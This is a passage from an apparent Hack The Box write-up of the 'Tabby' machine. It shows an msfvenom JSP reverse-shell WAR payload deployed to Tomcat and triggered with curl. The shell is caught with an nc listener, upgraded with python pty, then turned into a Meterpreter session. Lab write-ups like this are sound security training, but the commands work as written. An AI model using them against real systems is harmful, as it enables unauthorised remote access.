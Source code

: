 after troubleshooting...I realized that my payload was set to be run in the context of a linux machine, however, this was being run as a java file \(after the .war was unpacked, running on the web server\) so I changed my payload and tried again

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.216 LPORT=12543 -f war -o CRash.war       1 ⨯
Payload size: 1084 bytes
Final size of war file: 1084 bytes
Saved as: CRash.war
```

next I uploaded the new version \(had to change the name since the old one still existed\)

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ curl http://10.10.10.194:8080/CRash2/
```

Then I activated my reverse shell by curling the  

\[make sure to put the trailing `/`, it looks like it is doing something, but will give no output and wont work without it!!\]

## Initial Foothold

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ nc -lvnp 12543
listening on [any] 12543 ...
connect to [10.10.14.216] from (UNKNOWN) [10.10.10.194] 53772
which python
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ ^Z
zsh: suspended  nc -lvnp 12543

┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ stty raw -echo                                                                            148 ⨯ 1 ⚙

┌──(zweilos㉿kali)-[~/htb/tabby]
                                   └─$                                                                  fg                        
[1]  + continued  nc -lvnp 12543
                                ^[[1;5C
```

I got a shell back on my nc listener, and attempted to upgrade my shell using python

```text
[*] Started reverse TCP handler on 10.10.14.216:12543 
[*] Command shell session 1 opened (10.10.14.216:12543 -> 10.10.10.194:53774) at 2020-10-12 15:00:22 -0400

^Z
Background session 1? [y/N]  y
msf5 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.216:4433 
[*] Sending stage (980808 bytes) to 10.10.10.194
[*] Meterpreter session 2 opened (10.10.14.216:4433 -> 10.10.10.194:47896) at 2020-10-12 15:00:45 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 exploit(multi/handler) > 
```